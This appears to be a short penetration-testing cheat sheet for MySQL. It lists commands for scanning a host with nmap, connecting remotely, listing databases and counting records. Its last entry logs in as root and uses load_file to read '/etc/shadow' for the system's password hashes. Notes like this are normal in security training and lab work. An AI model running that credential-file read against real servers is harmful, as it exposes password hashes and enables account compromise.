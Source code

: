 ##### MySQL Version
```
nmap -sV IP
```

##### Connect to Remote MySQL Database
```
mysql -h IP -u username
```

##### Check the Databases
```
show databases;
```

##### Count Records in Table 'Authors' inside Books
```
use books;
select count(*) from authors;
```

##### System Password Hash for user 'root'
```
mysql -h IP -u root
select load_file("/etc/shadow");
```